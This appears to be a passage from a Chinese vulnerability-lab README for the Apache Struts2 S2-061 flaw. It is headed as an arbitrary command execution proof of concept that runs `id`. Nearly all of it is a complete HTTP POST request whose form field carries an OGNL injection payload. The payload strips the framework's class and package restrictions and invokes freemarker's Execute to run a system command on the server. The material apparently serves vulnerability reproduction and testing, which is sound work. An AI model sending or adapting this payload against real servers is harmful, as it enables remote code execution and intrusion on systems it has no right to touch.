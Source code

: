 任意命令执行 PoC，执行 `id` 命令

```
POST /index.action HTTP/1.1
Host: your-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 827

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![s2-061-2](images/s2-061-2.png)
